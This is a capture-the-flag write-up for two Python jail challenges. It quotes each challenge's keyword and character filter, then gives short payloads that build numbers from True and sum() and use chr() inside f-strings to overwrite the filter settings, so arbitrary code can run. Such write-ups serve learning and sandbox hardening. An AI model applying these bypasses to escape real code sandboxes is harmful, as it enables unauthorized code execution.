




# Legerdemain



This challenge is a pyjail. Let's see the interesting parts in the script : 

```py
p = {
    # Filter testing
    "banned words":     ["get","any","all","char","in","input","or","and","len","flag"],
    "banned chars":     '_-+.0123456789\\o',
    "max length":       18,
    "ban unicode":      True,
    # Main setup
    "is prod":          True,
    "use audithook":    False,
    "use debugger":     False,
    "use backups":      False,
    # Vars
    "globals backup":   globals(),
    "builtins backup":  __builtins__,
    "vars":             [],
    # Debug
    "debug extra":      True,
    "debug list":       ["onion"],
    "debug text":       "",
}


...


if __name__=="__main__":
    print(TITLE)
    while True:
        print(CHOICES)
        choice = input(">>>").strip()
        match choice:
            case "1":
                inp = input("Test your instruction chief!\n>>> ")
                if p["ban unicode"] and any(map(lambda x:ord(x)>128, inp)): inp = "print('gotcha!')"
                if len(inp)>p["max length"] or any(bw in inp for bw in p["banned words"]) or any(bc in inp for bc in p["banned chars"]): inp = "print('gotcha!')"
                try:
                    exec(inp)
                except:
                    print("WARNING: Bypass possible ! (or just a bad payload...)")
```

We can see, based on the filter, that we can't put unicode, we can't use the words `["get","any","all","char","in","input","or","and","len","flag"]` and we can't use the letters `_-+.0123456789\\o` with a maw length of 18 chars.

First interesting things : chr() isn't blocked, = isn't blocked and f strings aren't blocked.

So if we can have a number, we can basically just overwrite the configuration (as it's ran in global scope) with someting like `p[f"max l{chr(x)}ngth"]=x*x`, this would set the the max length to x*x which is a lot.

Looking at the authorized words, I found out that `True` was fine. True means the number 1. Unfortunately, `+` is banned, so I had to think a bit more and found `sum([True,True])=2`.

Now that we can have numbers, lets exploit it to remove all constraints.

```python
t=True
a=sum([t,t,t])
b=a*a*a*a
c=sum([a*a,b])
c=sum([c,a,a,t])
l=sum([a,c,t]) # = 101 = ord('e')
l=chr(l)
g=f"max l{l}ngth"
p[g]=c*c*c # changing max length

au=chr(sum([a*a,t,c,a,t])) # = ord('o')
p[f"banned w{au}rds"]=[]

lea=chr(sum([b,a*a,a,a,t])) # = ord('a')
p[f"banned ch{lea}rs"]=""
print(vars())
```



And that's a flag ! 

# Legerdemain Revenge



The filter was changed a bit :

```python
p = {
    # Filter testing
    "banned words":     ["get","any","all","print","in","char","or","and","len","flag","str","exec","eval"], # Now that's a good list :)
    "banned chars":     '_-+.0123456789\\of', # OF course :p
    "max length":       18,
    "ban unicode":      True,
    # Main setup
    "is prod":          True,
    "use audithook":    False,
    "use debugger":     False,
    "use backups":      False,
    # Vars
    "globals backup":   globals(),
    "builtins backup":  __builtins__,
    "vars":             [],
    # Debug
    "debug extra":      True,
    "debug list":       ["onion"],
    "debug text":       "",
}
```

So `f` was banned, which meant no f strings .... That's where the F STRINGS come.

So I just replaced f"..." with F"..."


```python
t=True
a=sum([t,t,t])
b=a*a*a*a
c=sum([a*a,b])
c=sum([c,a,a,t])
l=sum([a,c,t]) # = 101 = ord('e')
l=chr(l)
g=F"max l{l}ngth"
p[g]=c*c*c # changing max length

au=chr(sum([a*a,t,c,a,t])) # = ord('o')
p[F"banned w{au}rds"]=[]

lea=chr(sum([b,a*a,a,a,t])) # = ord('a')
p[F"banned ch{lea}rs"]=""
print(vars())
```



And here commes the second flag.

Thanks for the challenges.